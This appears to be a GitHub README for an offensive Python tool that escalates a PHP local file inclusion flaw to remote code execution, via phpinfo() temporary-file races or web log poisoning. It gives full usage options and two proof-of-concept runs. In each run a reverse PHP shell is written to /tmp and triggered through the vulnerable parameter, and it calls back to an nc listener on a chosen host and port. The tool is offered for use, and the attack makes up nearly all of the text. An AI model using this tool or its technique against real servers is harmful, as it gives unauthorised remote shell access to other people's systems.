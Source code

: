 # LFI to RCE via phpinfo() assistance or via controlled log file 

For more details about exploit via phpinfo(). research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
For more details about exploit via controlled log file, writeup grom [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

# Use case
#### About LFI to RCE via phpinfo()
- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 

#### About LFI to RCE via controlled log file
- Found an LFI Vulnerability
- found the web server log file path or try paths from script.

# Usage 

```
usage: lfito_rce.py [-h] [-a ACTION] -l LFI --lhost LHOST --lport LPORT
                         [--payload PTYPE] [-e REQEND] [-v VERBOSE]
                         [-t THREADS] [-i PHPINFO] [-f LOGFILE]

RCE from LFI with PHPINFO assistance or Via controlled log file

optional arguments:
  -h, --help            show this help message and exit
  -a ACTION, --action ACTION
                        Define the attack type - 1 for PHPINFO and - 2 for
                        controlled log. Value 1 by default
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
  -t THREADS, --threads THREADS
                        [For phpinfo action]. Threads number, set to 10 by
                        default
  -i PHPINFO, --phpinfo PHPINFO
                        [For phpinfo action]. Define the url path of the
                        "phpinfo" script. Per ex: "http://host/phpinfo.php"
  -f LOGFILE, --logfile LOGFILE
                        [For controlled log action]. Define the path of the
                        http server log file. By default script will use
                        bruteforce

```


# POC
#### About LFI to RCE via phpinfo() 

```
$ python lfito_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

#### About LFI to RCE via controlled log file

```
$ python lfito_rce.py -a 2 -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI RCE via controlled log
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  16 /   26
Got it! Reverse php Shell created in /tmp/k0THSi7vdS58.php

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/k0THSi7vdS58.php

Verify your nc listenner 127.0.0.1:9001

```

### Nota 

Sometimes you have to use a hight thread value to increase your chances of success !!
 
#### Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

